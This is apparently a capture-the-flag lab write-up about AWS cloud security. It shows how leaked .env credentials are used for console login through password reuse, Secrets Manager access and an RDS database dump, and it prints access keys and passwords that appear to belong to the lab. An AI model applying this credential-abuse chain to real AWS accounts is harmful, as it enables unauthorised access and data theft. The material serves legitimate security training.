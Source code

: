 ```yaml
---
author: Nithissh S
pubDatetime: 2025-03-02T15:22:00Z
modDatetime: 2025-03-02T07:12:47.400Z
title: Leverage leaked credentials for pwnage
slug: leverage-leaked-credentials-for-pwnage
featured: false
draft: false
tags:
  - CloudSec
  - AWS
  - RDS
  - Pwnedlabs
description:
  Exploiting weakness in Amazon RDS and elevating further to get the flag 
---
```


### Scenario

In the ever-shifting world of logistics, Huge Logistics has emerged as an undisputed global leader. Yet, every Goliath has its vulnerabilities. Whispered rumors in cybersecurity circles suggest that amidst the vast digital sprawl of Huge Logistics, there might lie unnoticed weaknesses. As a seasoned security consultant, your mission is set: Navigate the labyrinth of Huge Logistics' GitHub repositories, looking for the smallest chink in their armor. Dive deep, analyze thoroughly, and leave no stone unturned. Can you spot what others have missed?

  

### Things provided in this lab

|     |     |
| --- | --- |
| Type | Value |
| Github | [https://github.com/huge-logistics/aws-react-app](https://github.com/huge-logistics/aws-react-app) |

  

### Solution

In the following repository, where they have been provided with `.env` file and inspecting that we found two interesting things which will be useful for us one is the AWS access key which is `AKIAWHEOTHRFVXYV44WP`  

  

![](../../assets/images/pwnedlabs/rds-1.png) 

  

With the aws cli module, we can retrieve the account ID of this access key with the following command `aws sts get-access-key-info --access-key <access key>` 

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/.aws$ aws sts get-access-key-info --access-key-id AKIAWHEOTHRFVXYV44WP --profile nithissh
{
    "Account": "427648302155"
}
```

  

In the same `.env`  file we also have database credentials with username as `jose`  and password as `DevOps0001!` and let’s do one thing like credential stuffing attack on AWS login console.. We know the AWS account ID right so through IAM login, fill up the account ID as `427648302155` later the username and password as `jose` and `DevOps0001!` 

  

![](../../assets/images/pwnedlabs/rds-2.png)   

  

Once we click on login and suprisingly the method worked out and logged in as a IAM user called `jose` and exploring the console they used `AWS secrets manager` may be they would have used recently 

  

![](../../assets/images/pwnedlabs/rds-3.png)   

  

There are 4 secrets being stored over there and out of which two are interesting one is [employee-database-admin](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) and [employee-database](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) 

Accessing the [`employee-database-admin`](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) is restricted here and particularly for this account

  

![](../../assets/images/pwnedlabs/rds-4.png)   

  

But we can able to access [`employee-database`](https://us-east-1.console.aws.amazon.com/secretsmanager/secret?name=employee-database-admin&region=us-east-1) and retrieve the secrets like DB name, DB username and password.. Also the hostname and With the following details and we connect it through `mysql-client`⁠

  

```sh
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh/.aws$ mysql -u reports -h employees.cwqkzlyzmm5z.us-east-1.rds.amazonaws.com -D employees -p
Enter password:
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 496468
Server version: 5.5.5-10.6.10-MariaDB managed by https://aws.amazon.com/rds/

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

  

We can list the tables using `show tables;` query and found that `flag` row exists which is obviously our objective to capture 

  

```sql
mysql> show tables;
+---------------------+
| Tables_in_employees |
+---------------------+
| countries           |
| departments         |
| dependents          |
| employees           |
| flag                |
| jobs                |
| locations           |
| regions             |
+---------------------+
8 rows in set (0.25 sec)
```

  

Now finally, you can the get flag through `SELECT * FROM flag`  and it will dump out our flag

  

```sql
mysql> SELECT * FROM flag;
+----------------------------------+
| flag                             |
+----------------------------------+
| d0e4b22365ad230c53c4ffc269dc0202 |
+----------------------------------+
1 row in set (0.24 sec)
```